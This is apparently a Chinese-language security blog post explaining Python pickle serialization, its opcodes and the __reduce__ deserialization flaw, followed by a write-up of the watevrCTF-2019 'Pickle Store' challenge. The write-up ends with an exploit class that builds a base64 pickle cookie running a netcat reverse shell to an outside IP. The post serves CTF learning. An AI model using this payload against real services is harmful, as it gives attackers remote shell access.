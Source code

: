 ```yaml
---
title: Python pickle 反序列化分析
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-11-24 21:56:36
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1115212.jpg
---
```

buu上遇到个python pickle反序列化的题，顺便学习一下有关知识。

python反序列化简介与利用

相较于php的反序列化，python的反序列化更容易利用，危害也更大。在php的反序列化漏洞利用中我们必须挖掘复杂的利用链，但python的序列化和反序列化中却不需要那么麻烦，因为python序列化出来的是pickle流，这是一种栈语言，python能够实现的功能它也能实现，引用一下pickle的简介：

pickle 是一种栈语言，有不同的编写方式，基于一个轻量的 PVM（Pickle Virtual Machine）。
pickle或cPickle，作用和PHP的serialize与unserialize一样，两者只是实现的语言不同，一个是纯Python实现、另一个是C实现，函数调用基本相同，但cPickle库的性能更好,之后就以pickle库来进行演示。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201124221718.png)

先通过几个例子来看下这几个函数的作用：

dump/load

#序列化
pickle.dump(obj, file, protocol=None,)
obj表示要进行封装的对象(必填参数）
file表示obj要写入的文件对象
以二进制可写模式打开即wb(必填参数）
#反序列化
pickle.load(file, *, fix_imports=True, encoding="ASCII", errors="strict", buffers=None)
file文件中读取封存后的对象
以二进制可读模式打开即rb(必填参数)

dumps/loads

#序列化
pickle.dumps(obj, protocol=None,*,fix_imports=True)
dumps()方法不需要写入文件中，直接返回一个序列化的bytes对象。
#反序列化
pickle.loads(bytes_object, *,fix_imports=True, encoding="ASCII". errors="strict")
loads()方法是直接从bytes对象中读取序列化的信息，而非从文件中读取。

python2

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201124221317.png)

在python下输出如下：
b'\x80\x03X\x04\x00\x00\x00abcdq\x00.'
python2序列化输出的字符串可以放在python3里正常反序列化，但python3序列化输出的字符串却不能让python2反序列化。

不同pickle版本的操作码及其含义可以在python3的安装目录里搜索pickle.py查看，如下是一部分操作码：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200301220031-0357b100-5bc5-1.png)

对于上面python上的结果进行分析
b'\x80\x03X\x04\x00\x00\x00abcdq\x00.'：

第一个字符\x80是一个操作码，pickle.py文件中的注释说明它的含义是用来声明pickle版本，后面跟着的\x03就代表了版本3；随后的X表示后面的四个字节代表了一个数字（小端序），即\x04\x00\x00\x00,值为4，表示下面跟着的utf8编码的字符串的长度，即后面跟着的abcd;再往后是q,这个没有查到详细的说明，看注释上的字面意思是后面即\x00是一个字节的参数，但也不知道这个有什么用，我猜测它是用来给参数做索引用的，索引存储在momo区，如果不需要用到取数据，可以把q\x00删掉，这并不影响反序列化，最后的.代表结束，这是每个pickle流末尾都会有的操作符。

来看看复杂类型的数据序列化后是什么样的：

    a=("item1","item2")
    b=["item1","item2"]
    c={"key1":"value1","key2":"value2"}
    print(pickle.dumps(a))
    print(pickle.dumps(b))
    print(pickle.dumps(c))

结果：

    b'\x80\x03X\x05\x00\x00\x00item1q\x00X\x05\x00\x00\x00item2q\x01\x86q\x02.'
    b'\x80\x03]q\x00(X\x05\x00\x00\x00item1q\x01X\x05\x00\x00\x00item2q\x02e.'
    b'\x80\x03}q\x00(X\x04\x00\x00\x00key1q\x01X\x06\x00\x00\x00value1q\x02X\x04\x00\x00\x00key2q\x03X\x06\x00\x00\x00value2q\x04u.'

先来看tuple的pickle流，在栈上连续定义了两个字符串最后在结尾加了\x86这个操作码，其含义为”利用栈顶的两个元素（即前面的item1和item2）建立一个元组”，后面的q\x02标识该元组在memo的索引，最后是.结束符。

再看list的pickle流，在版本声明的后面是一个]操作符，意思是在栈上建立一个空list，q\x00是这个列表在memo的索引，后面是一个(,这是一个很重要的操作符，它用来标记后面某个操作的参数的边界，在这里其实是用来告诉末尾的e（建立list的操作符），从(开始到e操作符前面的内容用来构建list，(标记前面的内容就不归e操作符管了。最后是.结束符。

最后来看dict的pickle流，在版本声明的后面是一个},表示在栈上建立一个空dict，q\x00表明了这个dict在memo区的索引，后面同样是(标记,后面按照先key后value的属性依次定义数据，并给每个数据定好memo区的索引，最后是u操作符，类似于上面的e操作符，它的含义为利用(标记到u之间的数据构建dict，最后是.操作符。

上面是python3情况下的分析，遇到python2的题可看此链接：
https://www.freebuf.com/articles/web/252189.html
或者直接看此图：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720201124225901.jpg)

整个序列化的过程可以分为三个步骤

从对象中提权所有属性
写入对象的所有模块名和类名
写入对象所有属性的键值对

反序列化的过程就是序列化过程的逆过程。

#Pickle/CPickle反序列化漏洞分析

反序列化漏洞出现在 __reduce__()魔法函数上，这一点和PHP中的__wakeup()魔术方法类似，都是因为每当反序列化过程开始或者结束时 , 都会自动调用这类函数。而这恰好是反序列化漏洞经常出现的地方。

而且在反序列化过程中，因为编程语言需要根据反序列化字符串去解析出自己独特的语言数据结构，所以就必须要在内部把解析出来的结构去执行一下。如果在反序列化过程中出现问题，便可能直接造成RCE漏洞.

另外pickle.loads会解决import问题，对于未引入的module会自动尝试import。那么也就是说整个python标准库的代码执行、命令执行函数都可以进行使用。

#漏洞可能出现的位置：

解析认证token、session的时候
将对象Pickle后存储成磁盘文件
将对象Pickle后在网络中传输
参数传递给程序

命令执行的例子：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201124230851.png)

好了 下面开始解题

[watevrCTF-2019]Pickle Store

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20201124233847.png)

cookie里看到奇怪代码，使用pickle.loads()和base64对这串字符进行解码反序列化

经过上面的学习，现在可谓是轻车熟路

    import pickle
    import base64

    print(pickle.loads(base64.b64decode("gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu")))

利用Pickle反序列化exp反弹shell

    import pickle
    import base64

    class A(object):
        def __reduce__(self):
            return (eval, ("__import__('os').system('nc 172.16.151.7 9999 -e/bin/sh')",))
    a = A()
    print(base64.b64encode(pickle.dumps(a)))



参考链接：
https://www.secshi.com/39791.html
https://www.freebuf.com/articles/web/252189.html
https://www.anquanke.com/post/id/188981